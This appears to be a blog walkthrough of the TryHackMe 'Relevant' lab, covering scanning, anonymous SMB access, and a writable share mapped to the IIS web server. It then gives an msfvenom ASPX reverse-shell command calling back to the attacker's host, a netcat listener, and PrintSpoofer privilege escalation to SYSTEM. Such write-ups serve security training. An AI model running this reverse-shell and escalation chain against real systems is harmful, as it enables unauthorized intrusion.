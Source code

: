 ```yaml
---
slug: relevant-walkthrough
title: TryHackMe - Relevant - Walkthrough
authors: bw
tags: [learning, relevant, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Relevant][relevant]. Let’s get started!
<!-- truncate -->

# Overview
This room is laid out about as similar to a real-world pentest that a THM room can be. It comes with a Scope of Work (SOW) that you need to read through and follow. As the room states, it would be beneficial to treat this as a real pentest, and write a report on it. I won’t be doing that in this walkthrough, but I will do that on my own. I may post the report in a separate posting.

# User Flag
Since this is a black box test, let’s start with `rustscan`. This tool can be found [here][rustscan]. This tool will first scan the server, then pass the open ports into `nmap` for output.

Command: `rustscan -a <machine_ip> -- -A -Pn`

![r1](/img/thm/relevant/r1-1.png)

As you can see, we have a web-server, SMB, and RDP ports open on this box. We also see 49663 port open with an IIS service.. We have a possible OS of Windows Server 2016 SE 14393.

Let’s checkout the port 80 web-server first!

![r2](/img/thm/relevant/r2.webp)

We are met by an extremely blue default Windows IIS page. `nmap` gave a version of `httpd 10.0` that we can research exploits on. SMB also seems like a good route to go. Let’s enumerate smb with `smbclient`. This tool should be pre-installed on your Kali instance. If not, run `sudo apt install smbclient`

Let’s run it with this command:

`smbclient -L \\\\<machine_ip>`

Just press **Enter** when prompted for a password

![r3](/img/thm/relevant/r3.png)

We can see there are a few directories listed. Can we connect to any? We can connect to `IPC$` with `smbclient \\\\<machine_ip>\\IPC$`. However, we get the following error:

`NT_STATUS_INVALID_INFO_CLASS listing \*`

Let’s try the last one: `nt4wrksv`

Success! `ls` the directory and we see `passwords.txt`

![r4](/img/thm/relevant/r4.png)

Let’s view the file. `get passwords.txt`

Now we have 2 encoded passwords. Let’s decode them! Head to [base64decode.org][base64] to decode both of the strings.

Now, we have 2 usernames and passwords. You may have tried to login, enumerate more, etc with these 2 usernames and passwords. Well, this is what we call a **honeypot**. This was put in place by the creator of the room to trick us and waste our time. Job well done! This is a dead end.

Let’s go back to other options of getting in. We haven’t checked out the website, other than visiting it. Let’s enumerate directories!

`dirsearch -u http://<machine_ip> -E -x 400,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We didn’t find anything there. Let’s try the webserver on port 49663. Same default page, but what about a dirsearch?

![r9](/img/thm/relevant/r9.webp)

Looks like there is a directory with the same name as the smb share that we found earlier. Let’s see if it is connected to the share we were in.

![r5](/img/thm/relevant/r5.png)

This is good! Now, can we upload files? In a terminal, connect to the smb share and try to upload a file. `put file.txt`

![r6](/img/thm/relevant/r6.png)

SUCCESS! Alright, now how can we exploit this? Let’s craft a payload with `msfvenom`!

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<thm_ip> LPORT=1234 -f aspx -o shell.aspx
```

Now upload the file to the SMB client. Start a `netcat` listener: `nc -lvnp 1234`. Now curl the file: `curl http://<machine_ip>/nt4wrksv/shell.aspx`

![r7](/img/thm/relevant/r7.png)

Now navigate to a user folder to get the `user.txt` flag.

![r8](/img/thm/relevant/r8.png)

#Root Flag
Now we need to find a way to do privilege escalation on this machine. Let’s start by going through our permissions. I like to follow this [Checklist][payloads].

When you run: `whoami /priv` we find something interesting.

![r11](/img/thm/relevant/r11.png)

I found this [write-up][printspoof-w]. Let’s try this exploit! Exploit can be found [here][printspoof-e]. However, we need this to be compiled. You can compile this yourself, or just download the .exe [here][comp-print].

Get the file onto the system and then run: `PrintSpoofer.exe -i -c cmd`

![r12](/img/thm/relevant/r12.png)

Now get the root flag!

![r13](/img/thm/relevant/r13.png)

# Review
I thought this was an excellent room. It tested my skills and even caught me with that wonderful honeypot! I thought the creator of the room did a great job at keeping the room interesting and not having the normal points of entry!

# References
[TryHackMe][thm] | [Relevant Room][relevant] | [rustscan][rustscan] | [base64decode.org][base64] | [PayloadsAllTheThings WinPrivEsc Checklist][payloads] | [PrintSpoofer Write-Up][printspoof-w] | [PrintSpoofer Exploit][printspoof-e] | [Compiled PrintSpoofer.exe][comp-print]

[thm]: https://tryhackme.com
[relevant]: https://tryhackme.com/r/room/relevant
[rustscan]: https://github.com/RustScan/RustScan
[base64]: https://www.base64decode.org
[payloads]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration
[printspoof-w]: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
[printspoof-e]: https://github.com/itm4n/PrintSpoofer
[comp-print]: https://github.com/dievus/printspoofer
